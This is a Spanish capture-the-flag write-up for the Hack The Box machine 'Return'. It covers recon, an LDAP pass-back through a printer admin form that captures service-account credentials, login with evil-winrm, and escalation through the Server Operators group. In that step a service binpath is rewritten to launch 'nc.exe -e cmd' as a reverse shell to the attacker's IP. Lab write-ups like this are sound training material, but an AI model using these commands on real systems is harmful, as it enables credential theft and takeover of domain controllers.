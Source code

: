 # HTB-Return `10.10.11.108`

*Abusing Printer*

*Abusing Server Operators Group*

*Service Configuration Manipulation*

### Intrusión
Como siempre empezamos con nuestra sentencia nmap

```
nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 10.10.11.108 -oN Targeted
```
 
 ![samba](images/sambaaaaaaaa.jpg)
 
 
 ![gordo](images/gordoooo.jpg)

Descubrimos varios puertos interesantes abiertos, entre ellos:
`
80,135,139,389 y 445.
`

Vamos a empezar examinando la web, encontramos un directorio público en el que parece que nos conectamos a una impresora a través de una dirección y el puerto 389.

 ![WEB](images/web_ini.jpg)
 
 
Podemos comprobar que la contraseña no es una contraseña como tal, es solo texto.
Se me ocurre que podemos ver si tenemos conexión con ese formulario, para ello introducimos nuestra dirección IP.

![serv_add](/images/serv_add.jpg)

Y abrimos tcpdump por el adaptador red de la VPN.

```
tcpdump -i tun0 -n icmp
```
 
Al hacer click en update, podemos ver que nos llegan paquetes HTTP.

![resp](/images/resuesta.jpg)
 
Vamos a intentar escuchar por el puerto indicado, el 389, con netcat:

![nc](/images/nc.jpg)

Y vaya, tenemos credenciales.

`
svc-printer:1edFg43012 !!
`

Si las probamos en crackmapexec podemos ver que son credenciales válidas para SMB.

```
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![crack](/images/crackmapexec.jpg)

Lo podemos comprobar con smbmap

```
smbmap -H 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![smb](/images/smbmap.jpg)
 
Vamos a realizar la intrusión en la máquina usando evil-winrm (gem install evil-winrm)

```
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![winrm](/images/winrm.jpg)

*Y hemos logrado entrar en la máquina y obtener la primera flag.*


### Escalada de Privilegios
Si hacemos un `whoami /priv` obtenemos varios medios por los que escalar privilegios.

Si hacemos un `whoami /groups` nos llama la atención Server Operators
 
![groups](/images/groups.jpg)

“A built-in group that exists only on domain controllers. By default, the group has no members. Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer.”
Vamos a intentar modificar un servicio como dice aquí [https://cube0x0.github.io/Pocing-Beyond-DA/](https://cube0x0.github.io/Pocing-Beyond-DA/)


Vamos a subir netcat a la máquina víctima

![loc](/images/locate_nc.jpg)

![impacket](/images/Impacket.jpg)

![copy](/images/copy.jpg)
 

Vamos a ver que servicios hay activos: `services`

![servicios](/images/images.jpg)
 
*Inicialmente se va probando con cada servicio, hasta que nos deje con uno de ellos:*

Intentamos cambiar el servicio VSS con binpath, indicándole que nos mande una Shell con netcat

```
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.11 443
```

![binpath](/images/binpath.jpg)
 
Intentamos parar el servicio, pero no está iniciado.

![stop](/images/stop.jpg)

Así que lo iniciamos, abriendo un puerto de escucha antes en nuestra máquina

![nc2](/images/nc2.jpg)

![start](/images/start.jpg)

Recibimos exitosamente una Shell

![admin](/images/admin.jpg)

Completando la máquina exitosamente
  

